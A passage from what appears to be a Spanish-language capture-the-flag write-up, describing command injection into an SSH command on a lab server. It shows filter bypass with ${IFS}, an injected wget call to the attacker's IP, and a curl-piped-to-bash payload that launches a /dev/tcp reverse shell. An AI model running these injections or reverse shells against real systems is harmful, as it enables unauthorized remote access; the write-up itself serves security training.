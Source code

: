 Debido que no podemos utilizar espacios en blanco, podemos intentar utilizar `${IFS}` como variable de entorno de Bash que se trata de un espacio.

La estructura de comando que ejecutará el servidor es la siguiente.

```bash
ssh -i [key] gzzcoo;wget${IFS}10.10.14.6/test@localhost
```

Para verificar si podemos ejecutar el comando, nos levantamos un servidor web con Python e inyectamos el código con el espacio a través de la variable indicada, verificamos que parece que se ha ejecutado debido que en nuestro servidor web hemos recibido una petición por `GET`.

```bash
gzzcoo;wget${IFS}10.10.16.2/test
```

<figure><img src="../../.gitbook/assets/imagen (319).png" alt=""><figcaption></figcaption></figure>

Para tratar de conseguir una Reverse Shell, nos creamos un script en nuestro equipo para que la víctima ejecute el script a través del servidor web que levantamos para compartir este script.

Desde BurpSuite, enviaremos la siguiente inyección que lo que realizará es un `cURL` de nuestro script y lo ejecutará con una `bash`. Verificamos que logramos obtener acceso al equipo.

```bash
#!/bin/bash

/bin/bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"
```

```bash
gzzcoo;curl${IFS}http://10.10.16.2/rev.sh${IFS}|bash;#
```

<figure><img src="../../.gitbook/assets/4503_vmware_j6RSdz3HDF.png" alt=""><figcaption></figcaption></figure>
